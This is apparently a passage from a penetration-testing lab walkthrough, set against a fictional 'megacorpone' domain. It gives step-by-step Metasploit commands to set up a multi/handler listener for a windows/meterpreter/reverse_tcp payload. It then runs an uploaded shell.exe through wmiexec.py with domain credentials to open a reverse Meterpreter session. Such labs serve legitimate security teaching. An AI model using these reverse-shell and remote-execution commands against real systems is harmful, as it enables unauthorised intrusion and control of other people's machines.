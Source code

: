     - Now that the payload is on the remote system, we can execute it using the WMI command in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running the commands.](Images/multihandler.PNG)

    - **Note:** The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, open up another tab in your terminal to run the WMI command from our previous class

8. Find the terminal command we used before: `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 whoami`
 
9. For the COMMAND, instead of `whoami` put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - For example, if you uploaded the payload here: `C:\shell.exe`
    - The complete command would be:
        - `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 'C:\shell.exe'`

10. Run the command and on your other tab, The message "Meterpreter session 1 opened" should appear, as the image shows:
